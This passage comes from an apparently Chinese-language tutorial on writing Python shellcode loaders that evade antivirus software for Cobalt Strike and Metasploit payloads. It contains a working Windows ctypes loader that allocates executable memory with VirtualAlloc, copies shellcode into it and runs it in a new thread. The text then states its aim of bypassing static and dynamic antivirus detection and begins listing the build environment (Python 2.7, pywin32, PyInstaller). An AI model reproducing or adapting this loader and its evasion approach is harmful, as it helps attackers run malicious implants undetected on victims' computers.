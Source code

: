 ### Python 加载方式

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89......")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

​ 当然，shellcode loader 的编写方式很多，汇编，go，csharp 以及其他很多语言，这里不在一一举例，接下来我们进入利用 python 语言编写 shellcode loader 以达到静态动态都绕过杀软的目的。

0x03 为什么使用 python
-----------------

​ python 语言入门门槛低，上手快，且两三年前就出现了这种免杀方式，但是很多人说网上公开的代码已经不免杀了。事实真的如此吗？你有没有静下心来 code 过，是否去了解过相关的原理，是否通过学习到的原理去思维发散过，是否通过 code 去 fuzz 过？如果没有，你的 Cobaltstrike 和 Metasploit 只适合躺在那儿意淫，怪我咯。废话不多说，进入正题。

0x04 环境准备
---------

### 1、python-2.7.17.amd64

​ 下载地址：[https://www.python.org/ftp/python/2.7.17/python-2.7.17.amd64.msi](https://link.zhihu.com/?target=https%3A//www.python.org/ftp/python/2.7.17/python-2.7.17.amd64.msi)

### 2、pywin32-227.win-amd64-py2.7

​ 下载地址：[https://github.com/mhammond/pywin32/releases](https://link.zhihu.com/?target=https%3A//github.com/mhammond/pywin32/releases)

![](https://pic4.zhimg.com/v2-66061b568e2f27600e658d98a5d234b3_r.jpg)

### 3、PyInstaller3.0

